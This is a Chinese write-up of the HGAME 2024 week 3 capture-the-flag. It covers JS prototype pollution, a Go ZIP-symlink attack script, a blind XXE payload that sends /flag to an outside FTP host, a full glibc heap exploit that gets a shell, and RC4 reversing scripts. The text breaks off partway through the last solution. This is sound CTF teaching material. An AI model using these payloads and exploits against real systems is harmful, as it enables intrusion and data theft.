

原地址为<https://vidar-team.feishu.cn/docx/PtIjdxitiotao0xU7eXcBA4onwh>。

---

* **URL**: [https://hgame.vidar.club/](https://hgame.vidar.club/)
* **Username**: csmantle (Individual participation)
* **Start Time**: 2024-02-14 20:00:00
* **End Time**: 2024-02-21 20:00:00
* **Status:** -1 Pwn; -1 Crypto

---

- [Web](#web)
  - [WebVPN](#webvpn)
  - [ZeroLink](#zerolink)
  - [VidarBox](#vidarbox)
- [Pwn](#pwn)
  - [你满了,那我就漫出来了!](#你满了那我就漫出来了)
- [Reverse](#reverse)
  - [findme](#findme)
  - [mystery](#mystery)
  - [crackme](#crackme)
  - [encrypt](#encrypt)
- [Crypto](#crypto)
  - [exRSA](#exrsa)
  - [HNP](#hnp)
- [Misc](#misc)
  - [与 AI 聊天](#与-ai-聊天)
  - [Blind SQL Injection](#blind-sql-injection)
  - [简单的 vmdk 取证](#简单的-vmdk-取证)
  - [简单的取证,不过前十个有红包](#简单的取证不过前十个有红包)

---

## Web

### WebVPN

> WebVPN 是新一代纯网页形式的 VPN，用户无需安装任何插件或客户端，就能访问原本内网才能访问的信息系统。
> 用户名：username
> 密码：password

JS 原型污染。

```javascript
var userStorage = {
  username: {
    password: "password",
    info: {
      age: 18,
    },
    strategy: {
      "baidu.com": true,
      "google.com": false,
    },
  },
};

function update(dst, src) {
  for (key in src) {
    if (key.indexOf("__") != -1) {
      continue;
    }
    if (typeof src[key] == "object" && dst[key] !== undefined) {
      update(dst[key], src[key]);
      continue;
    }
    dst[key] = src[key];
  }
}

...

// under development
app.post("/user/info", (req, res) => {
  if (!req.session.username) {
    res.sendStatus(403);
  }
  console.debug(req.body);
  update(userStorage[req.session.username].info, req.body);
  res.sendStatus(200);
});
```

不能使用 `userStorage["username"].info.__proto__`，但是可以使用 `userStorage["username"].info.constructor.prototype` 向 strategy 对象中添加一条 127.0.0.1 条目。

Payload：

```json
{"constructor":{"prototype":{"127.0.0.1":true}}}
```


`hgame{b57165d48c0b9f8d28e94b33607405481f815a05}`

### ZeroLink

> Best-Kept-Memory is committed to providing reliable memory storage services!

Golang 审计与 ZIP symlink 利用。

拿到代码，发现一个登录功能，限制只有 Admin 用户才能登录。考虑四种可能的利用方式：弱密码爆破，SQLi，Cookie 伪造，逻辑漏洞。

使用 SecLists 中的多种字典进行弱密码爆破，失败。

```go
func GetPasswordByUsername(username string) (string, error) {
    var user User
    err := db.Where("username = ?", username).First(&user).Error
    if err != nil {
        log.Println("Cannot get password: " + err.Error())
        return "", err
    }
    return user.Password, nil
}

func GetUserByUsernameOrToken(username string, token string) (*User, error) {
    var user User
    query := db
    if username != "" {
        query = query.Where(&User{Username: username})
    } else {
        query = query.Where(&User{Token: token})
    }
    err := query.First(&user).Error
    if err != nil {
        log.Println("Cannot get user: " + err.Error())
        return nil, err
    }
    return &user, nil
}
```

可以看到 SQL 被很好地包装了起来，所以不存在 SQLi。

同时，实现一遍项目中使用的 session 库的 HMAC 算法（见 <https://github.com/gorilla/securecookie/blob/v1.1.2/securecookie.go#L259>）后，发现代码中提供的 session_secret 也并不是服务端使用的，所以不能伪造 cookies。

```ini
[sqlite]
location = "sqlite.db"

[secret]
session_secret = "session_secret"
```

```python
import base64 as b64

from Crypto.Hash import HMAC, SHA256
from pwn import *

KEY = b"session_secret"

SESSION = "MTcwNzM1MjQyMXxEWDhFQVFMX2dBQUJFQUVRQUFBcV80QUFBUVp6ZEhKcGJtY01DZ0FJZFhObGNtNWhiV1VHYzNSeWFXNW5EQW9BQ0cxaE5XaHlNREJ0fGTv1qJfQTkao4UFl2WXchUp_aF_1XTSOg1Xh7LzWDmj"

session = b64.urlsafe_b64decode(SESSION).split(b"|")

hmac = HMAC.new(KEY, digestmod=SHA256)
hmac.update(b"|".join((b"session", session[0], session[1])))
try:
    hmac.verify(session[2])
    success("Session is valid")
except ValueError:
    warn("Session is invalid")
    exit(1)
```

```bash
PS D:\Workspace\rev\hgame_2024\week_3> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_3/ZeroLink/check_hmac.py
[!] Session is invalid
PS D:\Workspace\rev\hgame_2024\week_3>
```

那么只剩下逻辑漏洞一种可能。

这个应用提供了用户信息查询功能，首页的 memory 查询首先从后端获取用户所有的列，再在前端选取需要的列进行展示。同时，我们**不难注意**到 GORM 库文档（<https://gorm.io/docs/query.html#Struct-amp-Map-Conditions>）中的这样一句话：

> **NOTE** When querying with struct, GORM will only query with non-zero fields, that means if your field’s value is `0`, `''`, `false` or other <u>zero values</u>, it won’t be used to build query conditions, for example:
>
> ```go
> db.Where(&User{Name: "jinzhu", Age: 0}).Find(&users)
> // SELECT * FROM users WHERE name = "jinzhu";
> ```

观察数据库的创建过程，我们发现Admin用户始终处于表的最前列。那么假如我们能构造出`SELECT * FROM ... WHERE TRUE LIMIT 1`这样的查询，就可以获得关于Admin的所有信息，包括密码。那么我们只需要绕过前端对username和token的判空就可以获取Admin的信息。


成功登录后发现一个ZIP上传并解压功能。同时存在一个API `/api/secret`从`/app/secret`文件中读取一个路径并将该路径指向的文件内容输出。

```go
func ReadSecretFile(c *gin.Context) {
    secretFilepath := "/app/secret"
    content, err := util.ReadFileToString(secretFilepath)
    if err != nil {
        c.JSON(http.StatusInternalServerError, FileResponse{
            Code:    http.StatusInternalServerError,
            Message: "Failed to read secret file",
            Data:    err.Error(),
        })
        return
    }

    secretContent, err := util.ReadFileToString(content)
    if err != nil {
        c.JSON(http.StatusInternalServerError, FileResponse{
            Code:    http.StatusInternalServerError,
            Message: "Failed to read secret file content",
            Data:    err.Error(),
        })
        return
    }

    c.JSON(http.StatusOK, FileResponse{
        Code:    http.StatusOK,
        Message: "Secret content read successfully",
        Data:    secretContent,
    })
}
```

那么可以快速想到 ZIP symlink 攻击。

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/ZeroLink$ rm app
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/ZeroLink$ ln -s /app app
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/ZeroLink$ ll
total 28
drwxrwxrwx 1 mantlebao mantlebao  4096 Feb 15 20:00 ./
drwxrwxrwx 1 mantlebao mantlebao  4096 Feb 15 12:23 ../
-rwxrwxrwx 1 mantlebao mantlebao 21702 Feb 15 12:17 ZeroLink.zip*
lrwxrwxrwx 1 mantlebao mantlebao     4 Feb 15 20:00 app -> /app
-rwxrwxrwx 1 mantlebao mantlebao   577 Feb 15 18:17 check_hmac.py*
-rwxrwxrwx 1 mantlebao mantlebao    26 Feb 15 19:05 payload_1.json*
-rwxrwxrwx 1 mantlebao mantlebao    30 Feb 15 19:15 scratch.txt*
-rwxrwxrwx 1 mantlebao mantlebao  1575 Feb 15 19:59 sol.py*
drwxrwxrwx 1 mantlebao mantlebao  4096 Feb 15 13:27 src/
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/ZeroLink$ zip -0 -y hack1.zip app
  adding: app (stored 0%)
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/ZeroLink$ rm app
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/ZeroLink$ mkdir app
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/ZeroLink$ cd app
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/ZeroLink$ echo "/flag" > app/secret
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/ZeroLink$ zip -0 -y hack2.zip app/secret
  adding: app/secret (stored 0%)
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/ZeroLink$
```

于是不难编写最终的攻击脚本：

```python
import os.path as path
import typing as ty
import urllib.parse as up

import requests as req
from pwn import *
from requests.cookies import RequestsCookieJar

def verify_and_jsonify(data: req.Response) -> ty.Any:
    json_data = data.json()
    if json_data["code"] != 200:
        error(f"Error {json_data['code']}: {json_data['message']}")
        exit(1)
    return json_data, data.cookies

URL = "http://106.14.57.14:31872"
ZIP_PATHS = ("./ZeroLink/hack1.zip", "./ZeroLink/hack2.zip")

jar = RequestsCookieJar()

info('Step 1: Get "Admin" password')
resp = req.post(
    up.urljoin(URL, "/api/user"), json={"username": None, "token": None}, cookies=jar
)
resp, _ = verify_and_jsonify(resp)
admin_password = resp["data"]["Password"]
success(f'Password: "{admin_password}"')

info('Step 2: Log in as "Admin"')
resp = req.post(
    up.urljoin(URL, "/api/login"),
    json={"username": "Admin", "password": admin_password},
    cookies=jar,
)
resp, jar = verify_and_jsonify(resp)

info("Step 3: Upload and unzip")
for i, p in enumerate(ZIP_PATHS):
    with open(p, "rb") as f:
        resp = req.post(
            up.urljoin(URL, "/api/upload"),
            files={
                "file": (path.basename(p), f, "application/zip"),
            },
            cookies=jar,
        )
    resp, _ = verify_and_jsonify(resp)
    info(f"ZIP {i}: path: {resp['data']}")

    resp = req.get(
        up.urljoin(URL, "/api/unzip"),
        cookies=jar,
    )
    resp, _ = verify_and_jsonify(resp)
    info(f"ZIP {i}: unzip: {resp['message']}")

info("Step 4: Get flag")
resp = req.get(up.urljoin(URL, "/api/secret"), cookies=jar)
resp, _ = verify_and_jsonify(resp)
success(f"Flag: {resp['data']}")
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_3> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_3/ZeroLink/sol.py
[*] Step 1: Get "Admin" password
[+] Password: "Zb77jbeoZkDdfQ12fzb0"
[*] Step 2: Log in as "Admin"
[*] Step 3: Upload and unzip
[*] ZIP 0: path: /app/uploads/hack1.zip
[*] ZIP 0: unzip: Unzip completed
[*] ZIP 1: path: /app/uploads/hack2.zip
[*] ZIP 1: unzip: Unzip completed
[*] Step 4: Get flag
[+] Flag: hgame{w0W_u_Re4l1y_Kn0W_Golang_4ND_uNz1P!}
PS D:\Workspace\rev\hgame_2024\week_3>
```

`hgame{w0W_u_Re4l1y_Kn0W_Golang_4ND_uNz1P!}`

### VidarBox

> I hold a backdoor in VidarBox...
> **Hint1** 本题出网

Path traversal，`file:` URL abuse 和 blind XXE。

```java
package org.vidar.controller;

import ...;

@Controller
public class BackdoorController {

    private String workdir = "file:///non_exists/";
    private String suffix = ".xml";

    @RequestMapping("/")
    public String index() {
        return "index.html";
    }

    @GetMapping({"/backdoor"})
    @ResponseBody
    public String hack(@RequestParam String fname) throws IOException, SAXException {
        DefaultResourceLoader resourceLoader = new DefaultResourceLoader();
        byte[] content = resourceLoader.getResource(this.workdir + fname + this.suffix).getContentAsByteArray();
        if (content != null && this.safeCheck(content)) {
            XMLReader reader = XMLReaderFactory.createXMLReader();
            reader.parse(new InputSource(new ByteArrayInputStream(content)));
            return "success";
        } else {
            return "error";
        }
    }

    private boolean safeCheck(byte[] stream) throws IOException {
        String content = new String(stream);
        return !content.contains("DOCTYPE") && !content.contains("ENTITY") &&
                !content.contains("doctype") && !content.contains("entity");
    }

}
```

hack 函数将 URL 参数 fname 与 `"file:///non_exists/"` 和 `".xml"` 拼接。不难发现这里存在一个目录穿越漏洞，~~如果能够绕过 file:协议的限制就可以读取远程文件。~~不需要绕过 file:协议，因为其本身就支持从 FTP 服务器获取文件，详见 <https://web.archive.org/web/20051219043731/http://archive.ncsa.uiuc.edu/SDG/Software/Mosaic/Demo/url-primer.html>。Mosaic（Netscape 的前身）实现了这个特性，所以在 Mosaic 的生命周期后期发布的 JDK 1.0“兼容”这个特性应该很合理...... 吧？

接下来是一个明显的 XXE，但是有白名单。考虑文件编码绕过。

于是启动一台具有公网 IP 的 FTP 服务器。构造无回显 XXE 所需 payload 文件。

payload.xml：

```xml
<?xml version="1.0" encoding="UTF-16"?>
<!DOCTYPE foo[
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % remote SYSTEM "ftp://ftp_tmp.csmantle.top/evil.dtd">
    %remote;
    %all;
    %send;
]>
```

evil.dtd：

```xml
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'ftp://ftp_tmp.csmantle.top/%file;'>">
```

将 payload.xml 编码为 UTF-16-BE，然后与 evil.dtd 一起上传至 FTP 服务器（下文中的 `47.97.73.62`）。

触发漏洞即可在 FTP 服务器的 log 里看到回显的 flag。

`http://[ENDPOINT_HOST]:[ENDPOINT_PORT]/backdoor?fname=..%2f..%2f47.97.73.62%2fpayload`


`hgame{3bac002aeec84cfe1483e8c6ece5a14d5405465b}`

## Pwn

### 你满了,那我就漫出来了!

> still notes

Null byte off-by-one。没有 UAF。

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/fullnotes/attachment$ checksec --file ./vuln
[*] '/mnt/d/Workspace/rev/hgame_2024/week_3/fullnotes/attachment/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/fullnotes/attachment$
```

先利用 off by null 构造 chunk overlap 泄露 libc 基址，然后构造 double free 进行 tcache dup，达到修改__free_hook 的目的。最后 free 一个已有 `b"/bin/sh\x00"` 的块即可 getshell。

<https://github.com/cr0wnctf/writeups/tree/master/2018/2018_10_20_HITCON/children_tcache>

需要通过调试计算得到 fd/bk 与 main_arena 头的偏移。

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/fullnotes/attachment$ python ../sol.py
[*] '/mnt/d/Workspace/rev/hgame_2024/week_3/fullnotes/attachment/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/mnt/d/Workspace/rev/hgame_2024/week_3/fullnotes/attachment/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './vuln': pid 4084
[*] 00000000  a0 1c 34 2b  ca 7f                                  │··4+│··│
    00000006
[*] Switching to interactive mode
...

pwndbg> x/24gx 0x7fca2b341c00
0x7fca2b341c00: 0x0000000000000000      0x0000000000000000
0x7fca2b341c10: 0x00007fca2b33dd60      0x0000000000000000
0x7fca2b341c20 <__memalign_hook>:       0x00007fca2afed3d0      0x00007fca2afee7b0
0x7fca2b341c30 <__malloc_hook>: 0x0000000000000000      0x0000000000000000
0x7fca2b341c40: 0x0000000000000000      0x0000000000000000
0x7fca2b341c50: 0x0000000000000000      0x0000000000000000
0x7fca2b341c60: 0x0000000000000000      0x0000000000000000
0x7fca2b341c70: 0x0000000000000000      0x0000000000000000
0x7fca2b341c80: 0x0000000000000000      0x0000000000000000
0x7fca2b341c90: 0x0000000000000000      0x0000000000000000
0x7fca2b341ca0: 0x000055d832cf9b70      0x000055d832cf9350
0x7fca2b341cb0: 0x000055d832cf9350      0x000055d832cf9350
pwndbg>
```

GLIBC 2.27 具有 tcache double free 检查。我们需要先填满该块大小的 tcache，以将目标块的一个引用副本直接放到 fastbin 里面，再清空 tcache，将另一个副本正常放入 tcache。

<https://github.com/stong/how-to-exploit-a-double-free>

于是不难编写最终的 exp 脚本：

```python
from pwn import *

vuln = ELF("./vuln")
libc = ELF("./libc-2.27.so")
context.binary = vuln

PROMPT_CHOICES = b"Your choice:"
PROMPT_INDEX = b"Index: "
PROMPT_SIZE = b"Size: "
PROMPT_CONTENT = b"Content: "

def add_note(r: remote | process, index: int, size: int, content: bytes):
    assert 0 <= index <= 0xF and 0 <= size <= 0xFF and len(content) <= size
    r.sendlineafter(PROMPT_CHOICES, b"1")
    r.sendlineafter(PROMPT_INDEX, str(index).encode("ascii"))
    r.sendlineafter(PROMPT_SIZE, str(size).encode("ascii"))
    r.sendafter(PROMPT_CONTENT, content)

def show_note(r: remote | process, index: int) -> bytes:
    assert 0 <= index <= 0xF
    r.sendlineafter(PROMPT_CHOICES, b"2")
    r.sendlineafter(PROMPT_INDEX, str(index).encode("ascii"))
    return r.recvuntil(b"\n", drop=True)

def delete_note(r: remote | process, index: int):
    assert 0 <= index <= 0xF
    r.sendlineafter(PROMPT_CHOICES, b"3")
    r.sendlineafter(PROMPT_INDEX, str(index).encode("ascii"))

SIZE_A = 0xF8
SIZE_B = 0x18

ADDR_MAIN_ARENA = libc.symbols["__malloc_hook"] + 0x10

with remote("139.196.183.57", 30402) as r:
# with process("./vuln") as r:
    add_note(r, 0, SIZE_A, b"A")
    add_note(r, 1, SIZE_B, b"B")
    add_note(r, 2, SIZE_A, b"C")

    for i in range(7):
        add_note(r, 3 + i, SIZE_A, b"T")
    for i in range(7):
        delete_note(r, 3 + i)
    delete_note(r, 0)
    delete_note(r, 1)

    for i in range(6):
        add_note(r, 0, SIZE_B - i, b"D" * (SIZE_B - i))
        delete_note(r, 0)
    add_note(r, 0, SIZE_B - 6, b"E" * (SIZE_B - 8) + p16((SIZE_A + 8) + (SIZE_B + 8)))

    delete_note(r, 2)

    for i in range(7):
        add_note(r, 1 + i, SIZE_A, b"T")

    add_note(r, 8, SIZE_A, b"F")
    res = show_note(r, 0)
    info(hexdump(res))
    addr_main_arena = u64(res.ljust(8, b"\x00")) - 0x60
    libc_base = addr_main_arena - ADDR_MAIN_ARENA
    info(f"libc base: {hex(libc_base)}")
    assert libc_base > 0x700000000000
    addr_free_hook = libc_base + libc.symbols["__free_hook"]
    info(f"__free_hook: {hex(addr_free_hook)}")
    addr_system = libc_base + libc.symbols["system"]
    info(f"system: {hex(addr_system)}")

    for i in range(6):
        delete_note(r, 1 + i)
    delete_note(r, 8)
    add_note(r, 1, SIZE_A, b"G")
    delete_note(r, 7)

    add_note(r, 2, SIZE_B, b"H")
    for i in range(7):
        add_note(r, 5 + i, SIZE_B, b"T")
    for i in range(7):
        delete_note(r, 5 + i)
    delete_note(r, 0)
    for i in range(7):
        add_note(r, 5 + i, SIZE_B, b"/bin/sh\x00")
    delete_note(r, 2)

    add_note(r, 0, SIZE_B, p64(addr_free_hook - 0x10))
    add_note(r, 2, SIZE_B, b"I")

    add_note(r, 3, SIZE_B, p64(addr_system))
    delete_note(r, 5)
    r.interactive()
```

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/fullnotes/attachment$ python ../sol.py
[*] '/mnt/d/Workspace/rev/hgame_2024/week_3/fullnotes/attachment/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/mnt/d/Workspace/rev/hgame_2024/week_3/fullnotes/attachment/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 139.196.183.57 on port 30402: Done
[*] 00000000  a0 ec 8e da  a0 7f                                  │····│··│
    00000006
[*] libc base: 0x7fa0da503000
[*] __free_hook: 0x7fa0da8f08e8
[*] system: 0x7fa0da552420
[*] Switching to interactive mode
$ id
/bin/sh: 1: id: not found
$ cat /flag
hgame{85ff1719d1f3a73db9b24485664b8d8900d76fdd}
$ exit
1.Add note
2.Show note
3.Delete note
4.Exit
Your choice:$ 4
[*] Got EOF while reading in interactive
$
[*] Closed connection to 139.196.183.57 port 30402
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_3/fullnotes/attachment$
```

`hgame{85ff1719d1f3a73db9b24485664b8d8900d76fdd}`

## Reverse

### findme

> 什么乱七八糟的数据

文件嵌入 + 花指令。

首先看到 main 函数里面访问了 data 区的很大一块内存。开头两个 dword 值为 b"MZ"，那么考虑文件嵌入。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  sub_140001010("hgame{It_is_a_fake_flag!HaHaHa}\n", argv, envp);
  sub_140001010("you should try to decrypt it:\n");
  sub_140001010("aGdhbWV7SXRfaXNfYWxzb19hX2Zha2VfZmxhZyFIYUhhSGFIYX0=");
  puts(Buffer);
  return 0;
}
```

dump 出来进一步分析。

```python
DATA: list[int]

with open("./findme/data.py") as f:
    exec(f.read())

assert all(0 <= x <= 0xFF for x in DATA)

with open("./findme/dec.exe", "wb") as f:
    f.write(bytes(DATA))
```

需要 patch 很多 jz/jnz 的花指令。发现主要算法是一个 RC4，但是密钥流生成方式进行了一些修改。

```c
void __cdecl rc4_stream(unsigned int a1)
{
  int i; // ecx
  int v2; // ebx
  int j; // esi
  uint8_t v4; // dl
  int K[256]; // [esp+Ch] [ebp-400h] BYREF

  memset(K, 0, sizeof(K));
  for ( i = 0; i < 256; ++i )
  {
    S[i] = -(char)i;
    K[i] = buf_key[i % a1];
  }
  v2 = 0;
  for ( j = 0; j < 256; ++j )
  {
    v4 = S[j];
    v2 = (v4 + K[j] + v2) % 256;
    S[j] = S[v2];
    S[v2] = v4;
  }
}

void __cdecl sub_43110C(unsigned int len)
{
  int i; // ebx
  unsigned int v2; // edi
  int j; // esi
  uint8_t v4; // cl

  i = 0;
  v2 = 0;
  if ( len )
  {
    j = 0;
    do
    {
      i = (i + 1) % 256;
      v4 = S[i];
      j = (v4 + j) % 256;
      S[i] = S[j];
      S[j] = v4;
      buf_input[v2++] += buf_input[-(unsigned __int8)(v4 + S[i])];
    }
    while ( v2 < len );
  }
}
```

这里需要注意的是，由于 `buf_input` 与 `S` 是相邻的，所以 `buf_input[-(unsigned __int8)(v4 + S[i])]` 等价于 `S[256 - (uint8_t)(v4 + S[i])]`。

那么我们不难写出解密代码：

```python
from pwn import *

def RC4Stream(key: bytes, len_text: int):
    S = bytearray((-i) & 0xFF for i in range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    i = j = 0
    for _ in range(len_text):
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        yield S[-((S[i] + S[j]) & 0xFF)]

ARR_TARGET = [0x7D, 0x2B, 0x43, 0xA9, 0xB9, 0x6B, 0x93, 0x2D, 0x9A, 0xD0, 0x48, 0xC8, 0xEB, 0x51, 0x59, 0xE9, 0x74, 0x68, 0x8A, 0x45, 0x6B, 0xBA, 0xA7, 0x16, 0xF1, 0x10, 0x74, 0xD5, 0x41, 0x3C, 0x67, 0x7D]
ARR_KEY = b"deadbeef"

result = bytes(
    (x - k) & 0xFF for x, k in zip(ARR_TARGET, RC4Stream(ARR_KEY, len(ARR_TARGET)))
)

success(result.decode(errors="ignore"))
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_3> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_3/findme/sol.py
[+] hgame{Fl0w3rs_Ar3_Very_fr4grant}
PS D:\Workspace\rev\hgame_2024\week_3>
```

`hgame{Fl0w3rs_Ar3_Very_fr4grant}`

### mystery

> 代码不见了

init，fini 数组，RC4，魔改 RC4。

IDA 打开发现 main 函数是空的。

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  ptrace(PTRACE_TRACEME, 0LL, 0LL, 0LL);
  return 0LL;
}
```

考虑 glibc 提供的 init 和 fini 函数指针数组中存在代码。


```c
void __fastcall fun_init_1()
{
  unsigned __int64 v0; // rax

  *(_QWORD *)arr_plain ^= 0x2F2F2F2F2F2F2F2FuLL;
  *(_WORD *)&arr_plain[8] ^= 0x2F2Fu;
  *(_DWORD *)arr_K ^= 0x2F2F2F2Fu;
  *(_WORD *)&arr_K[4] ^= 0x2F2Fu;
  v0 = strlen((const char *)arr_K);
  rc4_sched(arr_S, arr_K, v0);
  rc4_stream(arr_S, arr_plain, strlen((const char *)arr_plain));
}

void __fastcall fun_fini_1()
{
  puts("please input your flag:\n");
  __isoc99_scanf("%s", &s_input);
  memset(arr_S, 0, sizeof(arr_S));
  rc4_sched(arr_S, arr_plain, strlen((const char *)arr_plain));
  rc4prime_stream(arr_S, &s_input, strlen((const char *)&s_input));
  if ( !strcmp((const char *)&s_input, arr_cipher) )
    puts("Congratulations!\n");
  else
    puts("Wrong!please try again!");
}
```

（上面函数已经经过重命名。）我们不难发现代码实现了一个 RC4 key scheduler，并分别使用异或和减法进行加密操作。

```c
void __fastcall rc4_sched(uint8_t *S, uint8_t *K, unsigned __int64 len_K)
{
  unsigned __int64 i; // rcx
  __int64 v4; // rcx
  int v5; // eax
  uint8_t v6; // si
  unsigned int v7; // edx
  uint8_t *v8; // rdx
  _DWORD T[258]; // [rsp+0h] [rbp-418h] BYREF
  unsigned __int64 v10; // [rsp+408h] [rbp-10h]

  v10 = __readfsqword(0x28u);
  memset(T, 0, 0x400uLL);
  for ( i = 0LL; i != 256; ++i )
  {
    S[i] = i;
    T[i] = K[i % len_K];
  }
  v4 = 0LL;
  v5 = 0;
  do
  {
    v6 = S[v4];
    v7 = (T[v4] + v6 + v5) >> 31;
    v5 = (unsigned __int8)(HIBYTE(v7) + LOBYTE(T[v4]) + v6 + v5) - HIBYTE(v7);
    v8 = &S[v5];
    S[v4++] = *v8;
    *v8 = v6;
  }
  while ( v4 != 256 );
}

void __fastcall rc4_stream(uint8_t *S, uint8_t *plain, __int64 len)
{
  uint8_t *v3; // r10
  int v4; // r9d
  int v5; // r8d
  uint8_t *v6; // rax
  uint8_t v7; // dl
  uint8_t *v8; // rcx

  if ( len )
  {
    v3 = &plain[len];
    LOBYTE(v4) = 0;
    LOBYTE(v5) = 0;
    do
    {
      v5 = (unsigned __int8)(v5 + 1);
      v6 = &S[v5];
      v7 = *v6;
      v4 = (unsigned __int8)(*v6 + v4);
      v8 = &S[v4];
      *v6 = *v8;
      *v8 = v7;
      *plain++ ^= S[(unsigned __int8)(*v6 + v7)];
    }
    while ( v3 != plain );
  }
}

void __fastcall rc4prime_stream(uint8_t *S, uint8_t *plain, __int64 len)
{
  uint8_t *v3; // r10
  int v4; // r9d
  int v5; // r8d
  uint8_t *v6; // rax
  uint8_t v7; // dl
  uint8_t *v8; // rcx

  if ( len )
  {
    v3 = &plain[len];
    LOBYTE(v4) = 0;
    LOBYTE(v5) = 0;
    do
    {
      v5 = (unsigned __int8)(v5 + 1);
      v6 = &S[v5];
      v7 = *v6;
      v4 = (unsigned __int8)(*v6 + v4);
      v8 = &S[v4];
      *v6 = *v8;
      *v8 = v7;
      *plain++ -= S[(unsigned __int8)(*v6 + v7)];
    }
    while ( v3 != plain );
  }
}
```

那么我们在理清密钥和输入的关系后，不难写出解密脚本。

```python
from pwn import *

arr_plain = [0x4D, 0x4E, 0x41, 0x70, 0x4B, 0x4A, 0x4D, 0x5A, 0x48, 0x0E]
arr_K = [0x44, 0x4A, 0x56, 0x44, 0x4A, 0x56]
arr_cipher = [0x50, 0x42, 0x38, 0x4D, 0x4C, 0x54, 0x90, 0x6F, 0xFE, 0x6F, 0xBC, 0x69, 0xB9, 0x22, 0x7C, 0x16, 0x8F, 0x44, 0x38, 0x4A, 0xEF, 0x37, 0x43, 0xC0, 0xA2, 0xB6, 0x34, 0x2C, 0x00]

arr_plain = bytes(map(lambda x: x ^ 0x2F, arr_plain))
arr_K = bytes(map(lambda x: x ^ 0x2F, arr_K))
arr_cipher = bytes(arr_cipher)

